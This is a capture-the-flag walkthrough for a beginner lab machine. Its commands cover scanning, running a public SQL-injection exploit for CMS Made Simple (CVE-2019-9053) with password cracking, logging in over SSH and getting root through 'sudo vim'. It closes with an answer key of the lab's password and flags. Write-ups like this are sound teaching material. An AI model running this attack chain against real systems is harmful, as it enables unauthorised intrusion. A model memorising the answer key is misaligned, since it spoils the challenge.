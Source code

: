 # Simple CTF

Beginner level ctf

## Set up environment IP as target IP_MACHINE

```
export IP=10.10.179.1
```  

![IP](./images/IP.png)


## Enumeration and Scanning

* Check the IP from browser 

	![website](./images/website.png)

* Scan open port with nmap

	```
	nmap -sV -sC $IP | tee nmap-scan.txt
	```  

	File scan resulted [here](./files/nmap-scan.txt)  

	![nmap-scan](./images/nmap-scan.png)

* Scan directory with gobuster
	
	* Default directory scan
		
		```
		gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster-default.txt
		```  

		File scan resulted [here](./files/gobuster-default.txt)  

		![gobuster-default](./images/gobuster-default.png)

	* Sub directory scan
		
		```
		gobuster dir -u $IP/simple -w /usr/share/wordlists/dirb/common.txt | tee gobuster-simple.txt
		```  
		
		File scan resulted [here](./files/gobuster-simple.txt)  

		![gobuster-simple](./images/gobuster-simple.png)

* Try to open website

	* Check the sub directory
		
		![website-simple](./images/website-simple.png)

	* Check website version
	
		![website-version](./images/website-version.png)

	* Check website posted
	
		![website-posted](./images/website-posted.png)


* Find Exploit from DB

	* Search exploit 
		
		```
		searchsploit CMS made simple 2.2.8
		```  

		![exploit-search](./images/exploit-search.png)

	* Download exploit file
		
		```
		searchsploit -m php/webapps/46635.py
		```  

		![exploit-download](./images/exploit-download.png)

	* Check CVE number 
		
		```
		nano 46635.py
		```  

		![cve-number](./images/cve-number.png)


## Gaining Acecss & Exploitation

* Run the exploit file with python2

	```
	python2 46635.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt
	```  

	![script-run](./images/script-run.png)
	
	Resulted  

	![exploit-pass](./images/exploit-pass.png)

* Login to target machine

	```
	ssh -p 2222 mitch@$IP
	```

	![ssh-login](./images/ssh-login.png)

* Get the user.txt

	![user-txt](./images/user-txt.png)

* Get root access

	* Check privilege escalation with sudo
	
		```
		sudo -l
		```  

		![sudo-l](./images/sudo-l.png)

	* Run sudo to get root access
	
		```
		sudo vim -c ':!/bin/sh'
		```  

		![home-user](./images/home-user.png)

	* Get `root.txt`
	
		![root-txt](./images/root-txt.png)

## Questions and Answers

* How many services are running under port 1000?

	`2`
	
* What is running on the higher port?

	`ssh`
	
* What's the CVE you're using against the application? 

	`CVE-2019-9053`
	
* To what kind of vulnerability is the application vulnerable?

	`SQLi`

* What's the password?

	`secret`

* Where can you login with the details obtained?

	`ssh`
	
* What's the user flag?

	`G00d j0b, keep up!`
		
* Is there any other user in the home directory? What's its name?

	`sunbath`
	
* What can you leverage to spawn a privileged shell?

	`vim`
	
* What's the root flag?

	`W3ll d0n3. You made it!`
